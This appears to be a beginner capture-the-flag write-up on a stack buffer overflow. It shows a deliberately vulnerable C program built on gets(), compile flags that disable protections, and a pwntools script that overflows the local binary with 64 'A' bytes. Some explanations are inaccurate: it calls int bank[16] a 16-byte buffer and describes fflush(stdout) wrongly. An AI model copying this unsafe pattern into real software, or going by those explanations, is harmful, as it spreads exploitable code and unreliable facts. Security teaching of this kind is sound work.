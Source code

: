 ```yaml
---
description: 08/15/2023
---
```


# 0⃣ 00

This is a very beginner-friendly buffer overflow exploit. I hope you enjoy.

> Can you find out how much money you need to send to the bank to make it overflow?
>
> This one is a bit weird... The buffer in the stack gets allocated in a strange way, so you may need to send more than you thought!

## Static Source Code Analysis

````c
```c

#include <stdio.h>
#include <string.h>

int main(void)
{

    int bank[16];

    printf("Welcome to bank 1337! Give us your money: \n");
    gets(bank);
    fflush(stdout);

}
```
````

Compile:

```
gcc 00.c -o 00 -m32 -fno-stack-protector -z execstack -no-pie -g
```

We can see that our bank buffer is storing 16-bytes of data.

<mark style="color:yellow;">It is uses the vulnerable</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`gets()`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">function in c to store our input. The reason</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`gets()`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">is so dangerous is because it copies all input from STDIN to the buffer without checking size. This allows the user to provide a string that is larger than the buffer size, resulting in an overflow condition. In other words, there are zero checks for our input</mark>.

`fflush(stdout)` is simply just clearing our buffer after use to help the Kernel out for efficiency.

## Exploitation

### Manual Method

<figure><img src="../../.gitbook/assets/image (84).png" alt=""><figcaption></figcaption></figure>

### Automated Method (pwntools)

exploit.py:

```python
from pwn import *

# Set the context for the exploit
context.binary = './00'
context.log_level = 'debug'

# Establish a connection to the binary
p = process('./00')

# Send 64 bytes of 'A' as input
payload = b'A' * 64
p.sendlineafter(":", payload)

# Interact with the binary
p.interactive()
```

<figure><img src="../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>


